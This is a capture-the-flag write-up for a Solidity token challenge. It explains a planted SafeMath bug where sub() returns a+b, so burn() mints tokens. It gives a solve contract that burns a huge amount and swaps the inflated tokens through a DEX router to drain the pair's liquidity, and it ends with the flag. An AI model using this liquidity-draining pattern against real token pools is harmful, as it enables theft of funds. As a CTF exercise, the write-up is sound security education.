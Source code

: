 # Challenge 03 : You have to be kidding me.. [7 solves] [499 points] [First blood 🩸]

```
Same story. It's not that the bug is even hard, but can you find it ?
How could a guy even come up with that ?
The pair will be listed on the DEX too.
You get the flag if the pair has < 0.5 MEL$ liquidities.
```

This challenge is basically the same as last challenge, except the minting process

The mint function does not actually increase the balance of msg.sender, as add() will not increase the value in storage, but it will just return the increased value, and the returned value is not used : 
```solidity
    function mint(uint amount) external {
        balanceOf[msg.sender].add(amount);
        totalSupply.add(amount);

        emit Transfer(address(0), msg.sender, amount);
    }
```

But, in SafeMath that it is using, it has been modified :

```solidity
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        return a + b;
    }
```

It should return a - b, but now it's returning a + b

So we can just use burn() to mint token :

```solidity
    function burn(uint amount) external {
        balanceOf[msg.sender] = balanceOf[msg.sender].sub(amount);
        totalSupply.sub(amount);

        emit Transfer(msg.sender, address(0), amount);
    }
```

```solidity
pragma solidity ^0.8.0;

import "./chall3.sol";

interface Router {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
}

contract chall3_solve {
    constructor(address chall3, address router, address wmei) public {
        hero2301(chall3).burn(999999999999 ether);
        hero2301(chall3).approve(router, type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = chall3;
        path[1] = wmei;
        Router(router).swapExactTokensForTokens(999999999999 ether, 0, path, address(this), type(uint256).max);
    }
}
```

I think there's something wrong with the verification, sometimes even the pair has less than 0.5 WMEI, it will show verification fail, I think it's because sometimes the WMEI contract is token0 in the pair and sometimes it's token1, it has to be in token1 in order for the verification to work

So, just deploy the challenge again and deploy the solve contract until it can verify correctly

Flag :
```
Hero{H0w_L0ng_D1d_1t_T4k3_U_?..lmao}
```